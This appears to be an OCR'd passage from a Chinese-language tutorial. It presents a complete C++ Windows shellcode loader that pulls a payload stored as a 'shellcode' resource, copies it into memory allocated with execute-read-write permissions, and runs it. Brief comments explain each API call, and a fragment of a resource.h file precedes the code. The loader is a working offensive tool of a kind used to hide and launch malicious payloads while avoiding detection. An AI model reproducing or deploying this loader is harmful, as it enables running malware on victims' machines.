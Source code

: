 ```cpp
#ifndef APSTUDIO_READONLY_SYMBOLS
#define _APS_NEXT_RESOURCE_VALUE        102
#define _APS_NEXT_COMMAND_VALUE         40001
#define _APS_NEXT_CONTROL_VALUE         1001
#define _APS_NEXT_SYMED_VALUE           101
#endif
#endif
```



## 实现代码

以下是完整shellcode加载器代码: 

```cpp
#include <Windows.h>
#include "resource.h"

//通过资源加载ShellCode
void ResourceLoader() {

    /*
    FindResource用于查找指定模块（EXE或DLL文件）中指定名称和类型的资源,其语法格式如下:
    HRSRC FindResource(
          HMODULE hModule,  //指向包含要查找的资源的模块的句柄,若该参数为NULL，则查找当前进程中的资源
          LPCTSTR lpName,   //指向资源名称的指针，可以是一个字符串或者一个整数，若是一个整数，则它是一个由MAKEINTRESOURCE宏定义的资源标识符
          LPCTSTR lpType    //指向资源类型的指针，可以是一个字符串或者一个整数。若是一个整数，则它是一个由MAKEINTRESOURCE宏定义的资源类型标识符
    );
    如果查找成功，则返回资源句柄；否则返回NULL
    */
    HRSRC Res = FindResource(NULL, MAKEINTRESOURCE(IDR_SHELLCODE1), L"shellcode");

    //用于获取资源的大小
    DWORD ResSize = SizeofResource(NULL, Res);

    //LoadResource函数会将指定资源句柄所指向的资源数据加载到内存中，并返回一个指向该资源数据的句柄
    HGLOBAL Load = LoadResource(NULL, Res);

    //申请内存
    void* buffer = VirtualAlloc(NULL, ResSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(buffer, Load, ResSize);

    //执行shellcode
    ((void(*)(void)) buffer)();
}

int main() {

    ResourceLoader();
}
```
